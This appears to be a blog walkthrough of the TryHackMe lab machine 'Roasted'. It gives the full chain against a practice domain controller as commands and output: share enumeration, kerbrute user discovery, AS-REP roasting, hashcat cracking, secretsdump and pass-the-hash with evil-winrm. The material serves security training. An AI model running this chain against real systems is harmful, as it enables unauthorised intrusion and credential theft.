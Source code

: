```yaml
---
layout: post
title:  "Roasted (THM)"
date:   2025-08-02 19:30:43 -0400
author: robo.uzi
tags: [TryHackMe, ctf]
---
```


## Initial Compromise

I run a full port scan: `nmap -Pn -p- -v 10.10.193.130 -oN roastedfullnmap.txt`
```shell
PORT      STATE SERVICE  
53/tcp    open  domain  
88/tcp    open  kerberos-sec  
135/tcp   open  msrpc  
139/tcp   open  netbios-ssn  
389/tcp   open  ldap  
445/tcp   open  microsoft-ds  
464/tcp   open  kpasswd5  
593/tcp   open  http-rpc-epmap  
636/tcp   open  ldapssl  
3268/tcp  open  globalcatLDAP  
3269/tcp  open  globalcatLDAPssl  
5985/tcp  open  wsman  
9389/tcp  open  adws  
49666/tcp open  unknown  
49668/tcp open  unknown  
49669/tcp open  unknown  
49670/tcp open  unknown  
49673/tcp open  unknown  
49694/tcp open  unknown
```
I ran nmap with the `-sV` and `-sC` flags on these ports after this scan. It's a lot of output so I didnt include it here.

First I run `ldapsearch -x -H ldap://10.10.73.108 -s base`. It doesnt give me much.

I run this `smbclient -L //10.10.73.108 -N` and find:
```shell
       Sharename       Type      Comment  
       ---------       ----      -------  
       ADMIN$          Disk      Remote Admin  
       C$              Disk      Default share  
       IPC$            IPC       Remote IPC  
       NETLOGON        Disk      Logon server share    
       SYSVOL          Disk      Logon server share    
       VulnNet-Business-Anonymous Disk      VulnNet Business Sharing  
       VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing  
Reconnecting with SMB1 for workgroup listing.  
do_connect: Connection to 10.10.73.108 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)  
Unable to connect with SMB1 -- no workgroup available
```

I run `smbclient //10.10.73.108/VulnNet-Enterprise-Anonymous -N` and `smbclient //10.10.73.108/VulnNet-Business-Anonymous -N`. There are 6 text files. There are 4 names in the files. Alexa Whitehat, Jack Goldenhand, Tony Skid, and Johnny Leet.

I generate a wordlist of possible usernames with this program: [https://github.com/urbanadventurer/username-anarchy](https://github.com/urbanadventurer/username-anarchy). The command was `./username-anarchy --input-file /home/ron/Desktop/ctf/roasted/users.txt`. This didnt generate enough usernames and I ended up telling chatgpt to make more permutations with lowercase and capital letters.

I then use `kerbrute` from [https://github.com/ropnop/kerbrute/releases/tag/v1.0.3](https://github.com/ropnop/kerbrute/releases/tag/v1.0.3). I run `./kerbrute userenum -d vulnnet-rst.local --dc 10.10.131.31 /home/user/Desktop/ctf/roasted/bigusers.txt`

I get:
```shell
   __             __               __        
  / /_____  _____/ /_  _______  __/ /____    
 / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \  
/ ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/  
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                           
  
Version: v1.0.3 (9dad6e1) - 04/09/25 - Ronnie Flathers @ropnop  
  
2025/04/09 21:48:32 >  Using KDC(s):  
2025/04/09 21:48:32 >   10.10.131.31:88  
  
2025/04/09 21:48:33 >  [+] VALID USERNAME:       A-Whitehat@vulnnet-rst.local  
2025/04/09 21:48:33 >  [+] VALID USERNAME:       a-whitehat@vulnnet-rst.local  
2025/04/09 21:48:33 >  [+] VALID USERNAME:       j-goldenhand@vulnnet-rst.local  
2025/04/09 21:48:33 >  [+] VALID USERNAME:       J-Goldenhand@vulnnet-rst.local  
2025/04/09 21:48:33 >  [+] VALID USERNAME:       t-skid@vulnnet-rst.local  
2025/04/09 21:48:33 >  [+] VALID USERNAME:       T-Skid@vulnnet-rst.local  
2025/04/09 21:48:33 >  [+] VALID USERNAME:       j-leet@vulnnet-rst.local  
2025/04/09 21:48:33 >  [+] VALID USERNAME:       J-Leet@vulnnet-rst.local  
2025/04/09 21:48:33 >  Done! Tested 32 usernames (8 valid) in 0.978 seconds
```

I finally remember I need to put to put the domain in my `/etc/hosts` file as such: `10.10.131.31 vulnnet-rst.local`

I run the command `impacket-GetNPUsers -no-pass -usersfile bigusers.txt vulnnet-rst.local/` to determine whether there’s an account that we can ask for Kerberos tickets from without using any password.

I get a hit:
```shell
$krb5asrep$23$T-Skid@VULNNET-RST.LOCAL:6c3a430ab8a1668151c30c8285d64e1b$2696bb8fcd1bc159b287ea70e5a7bc65ae53eee715a76b069ec70f835004d00072d1117b05ef2663969cfa075ea5764cc4412463efff66fcb7bfa6bb17cddcc2584791d0d84...
```

After running the hashcat command `hashcat -m 18200 kerb.txt /usr/share/wordlists/rockyou.txt` I get the password.

I run the command `smbmap -H 10.10.131.31 -u t-skid -p 'redacted'` to check what I have access to as this user. I get this:
```shell
[+] IP: 10.10.131.31:445        Name: vulnnet-rst.local                                    
 Disk                                   Permissions     Comment  
 ----                                   -----------     -------  
 ADMIN$                                 NO ACCESS       Remote Admin  
 C$                                     NO ACCESS       Default share  
 IPC$                                   READ ONLY       Remote IPC  
 NETLOGON                               READ ONLY       Logon server share        SYSVOL                                 READ ONLY       Logon server share        VulnNet-Business-Anonymous             READ ONLY       VulnNet Business Sharing  VulnNet-Enterprise-Anonymous          READ ONLY       VulnNet Enterprise Sharing
```

I run `smbclient //10.10.131.31/NETLOGON --user t-skid` and his password. I find a file called `ResetPassword.vbs` which contained plaintext creds for `a-whitehat`.
```shell
strUserNTName = "a-whitehat"  
strPassword = "redacted"
```

I connect with the new creds with `impacket-wmiexec vulnnet-rst.local/a-whitehat:redacted@10.10.131.31`

From here the first flag was found at `C:\Users\enterprise-core-vn\Desktop\user.txt`

___

## Privilege Escalation

From here I can dump the admin hash with `impacket-secretsdump vulnnet-rst.local/a-whitehat:redacted@10.10.131.31`

I get the hashes:
```shell
[*] Service RemoteRegistry is in stopped state  
[*] Starting service RemoteRegistry  
[*] Target system bootKey: 0xf10a2788aef5f622149a41b2c745f49a  
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)  
Administrator:500:hash:::  
Guest:501:hash:::  
DefaultAccount:503:hash:::
```

I can pass the admin hash with evil-winrm: `evil-winrm -u Administrator -H <hash> -i 10.10.240.82 -N`

I get a shell as admin:
```shell
Evil-WinRM shell v3.5  
                                          
Warning: Remote path completion is disabled  
                                          
Info: Establishing connection to remote endpoint  
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami    
vulnnet-rst\administrator  
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

I get the final flag: `*Evil-WinRM* PS C:\Users\Administrator\Desktop> type system.txt`

___
